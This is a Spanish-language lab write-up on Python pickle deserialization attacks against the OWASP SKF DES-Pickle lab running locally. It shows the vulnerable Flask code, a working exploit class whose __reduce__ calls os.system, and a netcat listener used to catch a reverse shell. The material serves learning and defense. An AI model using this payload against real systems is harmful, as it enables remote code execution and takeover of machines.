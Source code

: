 ----
- Tags: #deserializacion #pickle
----
# Definición

> Un Ataque de **Deserialización Pickle** (**DES-Pickle**) es un tipo de vulnerabilidad que puede ocurrir en aplicaciones Python que usan la biblioteca Pickle para serializar y deserializar objetos.

**`pickle`** es un módulo en Python que se utiliza para **serializar y deserializar** objetos de Python. La **serialización** es el proceso de convertir un objeto de Python en una secuencia de bytes que se puede almacenar en un archivo o transmitir a través de una red, y luego la **deserialización** es el proceso inverso, donde esos bytes se convierten de nuevo en el objeto original.

- **Conceptos clave**

	- **Serialización (pickling)**: Convertir un objeto de Python (como listas, diccionarios, clases, etc.) en una secuencia de bytes que se puede almacenar o enviar.
	- **Deserialización (unpickling)**: Convertir esa secuencia de bytes nuevamente en un objeto de Python.

La vulnerabilidad se produce cuando un atacante es capaz de controlar la entrada Pickle que se pasa a una función de deserialización en la aplicación. Si el código de la aplicación no valida adecuadamente la entrada Pickle, puede permitir que un atacante inyecte código malicioso en el objeto deserializado.

Una vez que el objeto ha sido deserializado, el código malicioso puede ser ejecutado en el contexto de la aplicación, lo que puede permitir al atacante tomar el control del sistema, acceder a datos sensibles, o incluso ejecutar código remoto.

Los atacantes pueden aprovecharse de las vulnerabilidades de DES-Pickle para realizar ataques de denegación de servicio (DoS), inyectar código malicioso, o incluso tomar el control completo del sistema.

El impacto de un Ataque de Deserialización Pickle depende del tipo y la sensibilidad de los datos que se puedan obtener, pero puede ser muy grave. Por lo tanto, es importante que los desarrolladores de aplicaciones Python validen y filtren de forma adecuada la entrada Pickle que se pasa a las funciones de deserialización, y que utilicen técnicas de seguridad como la limitación de recursos para prevenir ataques DoS y la desactivación de la deserialización automática de objetos no confiables.

------
# Explotación de DES-Pickle en laboratorio

Montaremos nuestro laboratorio nuevamente desde **skf-labs**

- ``docker pull blabla1337/owasp-skf-lab:des-pickle``
- ``docker run -dit -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:des-pickle``

--------

Entremos al http://localhost:5000 para ingresar al servicio. La web se verá de la siguiente manera

![[pickle 1.png]]

Por detrás esta web está empleando **Pickle**, lo que podemos hacer para de forma orientativa entender como es que funciona todo, **mirar el código** a través de la ruta de **skf-labs** ``skf-labs/py/DES-Pickle``.

```python
import pickle
from flask import Flask, request, render_template

app = Flask(__name__, static_url_path='/static', static_folder='static')
app.config['DEBUG'] = True


@app.route("/")
def start():
        user = {'name': 'ZeroCool'}
        with open('filename.pickle', 'wb') as handle:
            pickle.dump(user, handle, protocol=pickle.HIGHEST_PROTOCOL)
        with open('filename.pickle', 'rb') as handle:
            a = pickle.load(handle)
        return render_template("index.html", content = a)


@app.route("/sync", methods=['POST'])
def deserialization():
        with open("pickle.hacker", "wb+") as file:
            att = request.form['data_obj'] # "data_obj" es lo que enviamos nosotros en la web a la hora de escribir algo en la entrada.
            attack = bytes.fromhex(att) # Acá transforma el objeto en formato Bytes, pero unicamente a cadenas en Hexadecimal, por lo tanto necesitamos poner una cadena en Hex para efectuar el ataque.
            file.write(attack)
            file.close()
        with open('pickle.hacker', 'rb') as handle:
            a = pickle.load(handle) # Utiliza un recurso similar al que se usa en Yaml, llamado "picke.load()".
            print(attack)
            return render_template("index.html", content = a)

@app.errorhandler(404)
def page_not_found(e):
    return render_template("404.html")


if __name__ == "__main__":
    app.run(host='0.0.0.0')
```

Como podemos ver al usar ``pickle.load()`` sin ningún tipo de sanitización, ya que se confía plenamente en el input del usuario.

----

Para realizar el ataque crearemos un archivo **data.py** y le colocaremos lo siguiente.

```python
import pickle
import os
import binascii

class Exploit(object): # Creamos una clase
    def __reduce__(self): # Creamos la función reduce
        return(os.system,('id',)) # Internamente le indicamos que es lo que tiene que retornar

if __name__ == '__main__':
    print(binascii.hexlify(pickle.dumps(Exploit()))) # Mostrar por consola toda la data serializada del "id" en Hexadecimal.
```

![[pickle 2.png]]

Cuando esta cadena la coloquemos en el panel de entrada de la web y se interprete la misma se encargará de deserializarla.

![[pickle 3.png]]

Acá como podemos ver nos devuelve un "**0**" y no el output del comando ``id`` que colocamos, esto se debe a que ese cero hace referencia al **código de estado exitoso(0)** que dio el comando al ser **ejecutado**. Por lo tanto nosotros como atacantes podríamos intentar entablar una **Reverse Shell** directamente, dejando el código de la siguiente manera.

![[pickle 4.png]]

Solo quedaría ponernos en escucha con ``nc -nlvp 443`` y **mandar** la cadena en **Hexadecimal** a través de la web.

![[pickle 5.png]]

Tenemos acceso a la máquina victima.